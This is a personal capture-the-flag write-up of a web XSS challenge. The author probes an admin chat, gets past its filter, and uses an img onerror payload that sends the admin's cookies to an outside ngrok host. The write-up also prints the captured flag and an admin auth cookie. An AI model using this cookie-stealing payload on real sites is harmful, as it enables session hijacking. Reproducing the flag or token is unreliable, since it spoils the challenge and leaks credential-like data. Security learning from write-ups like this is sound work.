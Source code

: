 # Notes

This challenge provides a URL to visit. Looking at the page, it has a video that is playing and a chat window to communicate with the admin.

Two things I notice off the bat:
* There embedded video is loaded from a path which takes a URL as a parameter for the file to display. This might be susceptible to a path vulnerability like `../../../../etc/passwd` or similar.
* The chat window displays any text I enter to it, so it might be vulnerable to reflected XSS (although that would require reading in the input from the URL itself, so it's unlikely).

Trying some basic stuff with the video embed path, it appears to require a URL which has `http://cwo-xss.web.ctfcompetition.com`. Not sure if this is vulnerable or not. Maybe I can get it to load a non-video file, or maybe the URL-checking code is vulnerable so I can provide a different path which happens to include the valid domain name in a way that makes it ignored (and only the path part is used).

There are also two javascript files to check out:
* `static/js/main.js`
* `static/js/admin.js`

The `admin.js` file appears to be empty, and I can't get content to load by passing it to the `/watch` path (the video embed thing). However, `main.js` does some basic string concatenation to build HTML for insertion into the page, which is usually the sign of an XSS vulnerability.

A basic attempt at XSS triggered a "HACKER ALERT!" message from the chat system's POST response, so there's some input checking server-side. It might be something that can be subverted, however. The `script` tag appears to trigger the filter, but other HTML tags do not.

(the next day)

I thought I had found an XSS attack vector, with a similar mechanic to the earlier XSS challenge (gov-xss). The admin chat panel has some layer of XSS protection, but going through the [OWASP XSS evasion cheat sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) I found that the first example under "Non-alpha non-digit XSS" passed through the filter.

Unfortunately, after crafting a `script` tag attack which loaded a JS to redirect the browser w/ cookie data in the query parameters, it looks like the exploit JS is not being executed by the admin's browser. There definitely /is/ an admin browser, however because if I do a (non-exploit) image tag, both my browser and the admin's load it.

Maybe it's actually a result of my client redirecing away that prevents the server from also executing the JS? That seems... unlikely. Nope, I tried just doing `fetch` instead of `document.location` and it still didn't make the request.

Doing some more research, there's a possible XSS when you only have access to get a target browser to load an image file. This is possible because the GIF header is entirely ASCII through the width field, so you can craft a file which is both a valid GIF and valid JS, using comment characters in the width field.

I tried that and it didn't seem to trigger any JS to run (either from an `img` tag or a `script` tag). However, I noticed that when I had the previously-working `script` tag attack load a source that was not a `.js` file (the GIF), the admin machine *did* request that file.

Perhaps I can just send it some JS directly and rename the file, or change the `Content-Type` response header and trick it into loading it.

False alarm, I guess. I wasn't able to get it to happen again so maybe I was mistaking the request log entry with one from when I tried an `img` tag.

Okay, I made this harder than it needed to be... I had verified that `onload` and `onmouseover` event attributes were filtered out, and then assumed other ones were as well. Never assume :)

It turns out the `onerror` event was not filtered out, so I was able to craft a pretty straight-forward `img` tag-based XSS attack:
```
<img src="x:x" onerror="document.location='http://xxxxxxxx.ngrok.io/exploit?cookie='+encodeURI(document.cookie);" />
```

This caused the admin computer to request the provided URL and include their cookies, which had the flag:
```
CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}
```

There was also an `auth` cookie, which I added to my own browser:
```
TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz
```

When requesting the root path with this cookie, the page included a link to the `/admin` path. I was able to access the admin control panel. After poking around a bit, I was not able to see anything obvious to attack. I might need to come back to this later.
